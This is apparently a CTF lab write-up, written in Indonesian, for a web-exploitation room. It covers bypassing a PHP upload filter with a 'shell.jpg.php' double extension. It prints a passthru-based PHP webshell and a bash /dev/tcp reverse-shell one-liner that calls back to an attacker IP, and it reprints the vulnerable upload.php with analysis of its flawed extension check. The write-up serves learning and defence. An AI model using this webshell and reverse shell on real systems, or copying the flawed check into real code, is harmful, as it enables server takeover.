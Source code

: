 # Day 2 |  The Elf Strikes Back

`Web Exploitation` `RCE`

---
## Learning Outcomes

- Understanding GET and POST parameters
- Bypass file upload 
- Vulnerability Analysis by me!

## Summary

1. Find a file upload point.
2. Try uploading some innocent files -- what does it accept? (Images, text files, PDFs, etc)
3. Find the directory containing your uploads.
4. Try to bypass any filters and upload a reverse shell.
5. Start a netcat listener to receive the shell
6. Navigate to the shell in your browser and receive a connection!

## Write up

Pada task kali ini, diberikan suatu ID = ODIzODI5MTNiYmYw.

ID tersebut digunakan untuk mengakses page berikut.

![216ec1cef8706fce53b9beb88299a35d.png](./_resources/43573e0df86d4193b3e3085d5cec04d9.png)

> Pengingat:
>- Metode POST request : data yang dikirim diikutkan body request (tidak tampak di URL, namun bisa di intercept)
>- Metode GET request : data yang dikirim terlihat pada URL berupa parameter
>   - Setiap nilai parameter dipisah dengan &


Caranya adalah menambahkan query (tanda tanya `?`) dengan parameter `id=value`.

http://10.10.43.11/?id=ODIzODI5MTNiYmYw

![c196cb699c437c800581393bd693bed8.png](./_resources/369e7c46d6a247a68e2c56a6520e78fc.png)

Dari sini upload file dapat dilakukan, dimana ekstensi yang diminta adalah jpeg, jpg, dan png.

![6fc7281b9f43b120870d2661a7f33cc4.png](./_resources/4e66d9a56752494a974331937c6adcc0.png)

Berikut adalah list common uploads directory  
- /uploads
- /images
- /media
- /resources

File yang diupload berada pada directori /uploads, maka sekarang bisa mempersiapkan shell/backdoor web pada direktori tersebut.

Disini saya menggunakan webshell yang merupakaan bawaan dari Kali Linux.

```
<MAGICBYTES>
<form action="" method="get">
Command: <input type="text" name="cmd" /><input type="submit" value="Exec" />
</form>
Output:<br />
<pre><?php passthru($_REQUEST['cmd'], $result); ?></pre>
```
> *magic bytes : https://en.wikipedia.org/wiki/List_of_file_signatures*

Magicbytes digunakan untuk mengelabui/membypass uploader, meyakinkan bahwa yang diupload adalah file jpeg bukan webshell/backdoor.  

![2b1f5c137288962d3e193c0bce5093cc.png](./_resources/0aac928f2ead427d9cb1805986af8448.png)

Namun hal tersebut tidak berhasil. Ternyata ketika dibalik menjadi shell.jpg.php, webshell berhasil di upload.

![759dccab6add96541caf6777c2e0ce7a.png](./_resources/f4b4e9df972a42648980fde77011e691.png)

Sekarang Remote Code Execution (RCE) dapat dilakukan

![8a1272d07209ebe2ffba128811fb2302.png](./_resources/c93d20e6d336472db6aa54a7534f2a09.png)

Berikutnya adalah mendapatkan reverse shell.

```
bash -i >& /dev/tcp/10.9.30.115/9000 0>&1
```
Sedikit penjelasan
- bash -i >& /dev/tcp/10.9.30.115/9000   
" Bash, berikan interactive shell melalui TCP, pada 10.9.30.115 di port 9000 "
- 0>&1
" Redirect stdin (input) ke stdout (ouput) ", maksudnya setiap perintah yang diketik dalam reverse shell tersebut, maka akan di ditampilkan kembali ke terminal

Contoh gambar  

```
bash-4.4$ pwd   <-- ini stdin  
pwd             <-- ini stdout
/var/www/html/uploads
```

![8525accc17e0b613db09cbaca471ce8e.png](./_resources/c6f980247a834023bb9cb5fd3b73424c.png)

Flag ditemukan pada /var/www/flag.txt

```
find / -type f 2>/dev/null | grep flag
```

![a6306e4a9eeaddec28e4128fd6c846b6.png](./_resources/63d77db614f4487590f9840055323679.png)


## Vulnerability Analysis	

### Bypass upload filter

/var/www/html/upload.php
```
<?php
        try{
                $data = json_decode(file_get_contents("php://input"), true);
        } catch (Exception $e) {
                die(json_encode(["res"=>"Error", "msg"=>"Invalid JSON"]));
        }

        if(!isset($data["mime"]) || !isset($data["name"]) || !isset($data["body"]) || !isset($data["id"])){
                die(json_encode(["res"=>"Error", "msg"=>"Invalid parameters"]));
        }


        $ids = explode("\n", file_get_contents("id-list"));
        if(!in_array($data["id"], $ids)){
                die(json_encode(["res"=>"Error", "msg"=>"Not authenticated"]));
        }


        $dir = "uploads/";
        $target = $dir . $data["name"];

        try{
                $image = base64_decode(explode(",", $data["body"])[1]);
        } catch (Exception $e){
                die(json_encode(["res"=>"Error","msg"=>"Invalid image format"]));
        }

        $ext  = trim(explode(".", $data["name"])[1], "\n");
        if(!$ext){
                die(json_encode(["res"=>"Error","msg"=>"No extension detected"]));
        } else if ($ext != "jpg" && $ext != "jpeg" && $ext != "png"){
                die(json_encode(["res"=>"Error","msg"=>"Invalid extension!"]));
        }

        $outfile = fopen($target, "w");
        fwrite($outfile, $image);
        fclose($outfile);

        echo json_encode(["res" => "Success", "msg" => "File received successfully!"]);

?>
```

Yang membuat kita bisa melakukan bypass adalah line berikut

````
$ext  = trim(explode(".", $data["name"])[1], "\n");
    if(!$ext){
        die(json_encode(["res"=>"Error","msg"=>"No extension detected"]));
    } else if ($ext != "jpg" && $ext != "jpeg" && $ext != "png"){
        die(json_encode(["res"=>"Error","msg"=>"Invalid extension!"]));
    }

````

Berikut adalah contoh data yang dikirim ketika melakukan file upload

![data.png](./_resources/data.png)

data = {"name":"shell.php", "id":"ODIzODI5MTNiYmYw", ...etc}

Sesampainya pada baris ini

```
$ext  = trim(explode(".", $data["name"])[1], "\n"); 
```
Nama shell.php dipecah/explode dengan titik sebagai pemisahnya menjadi

- shell <-- $data["name"][0] -
- php   <-- $data["name"][1] - diambil dan tidak lolos filter

Maka ketika filename diberi nama shell.jpg.php

- shell <-- $data["name"][0]
- jpg   <-- $data["name"][1] - diambil dan lolos filter
- php   <-- $data["name"][2] - tidak dianggap!

### Remote Code Execution


https://lxadm.com/Apache:_disabling_PHP_execution_in_selected_directories
http://docs.php.net/manual/en/apache.configuration.php#ini.engine